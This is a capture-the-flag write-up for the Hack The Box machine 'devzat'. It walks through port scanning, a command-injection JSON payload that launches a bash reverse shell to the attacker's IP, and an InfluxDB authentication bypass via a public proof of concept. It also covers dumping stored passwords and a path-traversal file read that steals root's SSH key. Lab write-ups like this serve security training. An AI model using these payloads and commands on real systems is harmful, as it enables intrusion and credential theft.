

```
└─$ ./htb_init.sh devzat 10.129.204.201
[sudo] password for kali: 
NocentSec Box Scanner
Name: devzat
IP: 10.129.204.201
[+]Downloading dependencies
[+]Starting Initial Portscan
[+]Enumerating

════════════════════════════════════╣ SUBDOMAINS ON PORT 80 ╠════════════════════════════════════

  | pets | http://devzat.htb:80/ |  | 3745 | 200 | 510 | 20 | 21 | text/html; charset=utf-8 |  |
  [+]subs added to /etc/hosts: pets.devzat.htb 

════════════════════════════════════╣ PORTS & SERVICES ╠════════════════════════════════════

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c2:5f:fb:de:32:ff:44:bf:08:f5:ca:49:d4:42:1a:06 (RSA)
|   256 bc:cd:e8:ee:0a:a9:15:76:52:bc:19:a4:a3:b2:ba:ff (ECDSA)
|_  256 62:ef:72:52:4f:19:53:8b:f2:9b:be:46:88:4b:c3:d0 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: devzat - where the devs at
8000/tcp open  ssh     (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-Go
| ssh-hostkey: 
|_  3072 6a:ee:db:90:a6:10:30:9f:94:ff:bf:61:95:2a:20:63 (RSA)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8000-TCP:V=7.91%I=7%D=10/16%Time=616B2156%P=x86_64-pc-linux-gnu%r(N
SF:ULL,C,"SSH-2\.0-Go\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

                                                                                                                                                  
done 
```

## Foothold
Using the [box scanner](https://github.com/NocentSec) or [ffuf](https://github.com/ffuf/ffuf) we find the subdomain `pets.devzat.htb`.

We can add new pets using the form at the bottom of the page. We can also change the `species` paramater by intercepting the form submit with burpsuite. Fuzzing these parameters we realize something odd. The description field shows `exit code 1` and `exit code 2`. It looks like we have a command injection in the `species` parameter. Let's pop a reverse shell with this payload:

```json
{"name":"Hannah","species":";echo 'bash -i >& /dev/tcp/10.10.14.57/4040 0>&1' > sh.sh; chmod +x sh.sh;/bin/bash ./sh.sh"}
```

We are now logged in as `patrick` and can extract his SSH private key in `~/.ssh/`.

## User
After logging in via `ssh -i id_rsa patrick@devzat.htb` we have a look at the local ports:

```
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                                                                                               
tcp        0      0 127.0.0.1:8086          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8443          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:5000          0.0.0.0:*               LISTEN      941/./petshop       
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::8000                 :::*                    LISTEN      942/./devchat       
tcp6       0      0 :::80                   :::*                    LISTEN      -     
```

We see some interesting ports `8443` and `8086`. The later seems to be running `influxdb` and port `8443` is running a developer version of the chat app which is also running on port `8000`. Logging in as patrick on port `8000` leaks some more interesting data:

```
ssh patrick@127.0.0.1 -p 8000

admin: Hey patrick, you there?
patrick: Sure, shoot boss!
admin: So I setup the influxdb for you as we discussed earlier in business meeting.
patrick: Cool 👍
admin: Be sure to check it out and see if it works for you, will ya?
patrick: Yes, sure. Am on it!
devbot: admin has left the chat
```

So let's focus on `influxdb` first. After googling we quickly find that there is an authentication bypass and a [PoC](https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933) for it.

Let's run this PoC, make sure you install `pyjwt` and not `jwt` and run it with python3. Also the port 8086 is not reachable from the outside so portforward it using ssh first:
```
ssh -L 8086:localhost:8086 -i id_rsa patrick@devzat.htb
```
Now run the PoC.



For ip put `127.0.0.1` or `0.0.0.0` and for username `admin`.
You can now change the password for `admin` like this:
```
set password for admin='admin'
```
and then connect to it using the `influxdb` client which is a lot nicer than this PoC or you run this query directly:
```
SELECT * FROM "user"
```
both ways will give you the password for catherine:

```sql
> SELECT * FROM "user"
name: user
time                enabled password                         username
----                ------- --------                         --------
1624392256313965493 false   WillyWonka2021                   wilhelm
1624392256320782034 true    woBeeYareedahc7Oogeephies7Aiseci catherine
1624392256996682002 true    RoyalQueenBee$                   charles
> 
```

We can now log in and get the user flag: `su catherine`.


## Root
Root is pretty straight forward. We found a developer version on Port `8443` you remember? Let's log in there as catherine from her ssh session:
```
ssh catherine@0.0.0.0 -p 8443

patrick: Hey Catherine, glad you came.
catherine: Hey bud, what are you up to?
patrick: Remember the cool new feature we talked about the other day?
catherine: Sure
patrick: I implemented it. If you want to check it out you could connect to the local dev instance on port 8443.
catherine: Kinda busy right now 👔
patrick: That's perfectly fine 👍  You'll need a password which you can gather from the source. I left it in our default backups location.
catherine: k
patrick: I also put the main so you could diff main dev if you want.
catherine: Fine. As soon as the boss let me off the leash I will check it out.
patrick: Cool. I am very curious what you think of it. Consider it alpha state, though. Might not be secure yet. See ya!
devbot: patrick has left the chat
Welcome to the chat. There are no more users
devbot: catherine has joined the chat
catherine: 
```

This gives us all the information we need. We find the backups as usual under `/var/bakups/`.
We dont have write permissions there so we just copy both files to `/tmp/` and extract them there:

```
unzip devzat-dev.zip
unzip devzat-main.zip
```

In the chat history it also told us to run `diff main dev`. This will give us a password:
```
>       // Check my secure password
>       if pass != "CeilingCatStillAThingIn2021?" {
>               u.system("You did provide the wrong password")
>               return
>       }
```

We can now use the `/file` function in the chat on port `8443`.
```
catherine: /file /etc/passwd CeilingCatStillAThingIn2021?
[SYSTEM] The requested file @ /root/devzat/etc/passwd does not exist!
```

Seems like this is run by root.
For cheesy root pwn just run `/file /../root.txt CeilingCatStillAThingIn2021?`

For a proper shell you can extract roots private ssh key like this:
```
/file /../.ssh/id_rsa CeilingCatStillAThingIn2021?
```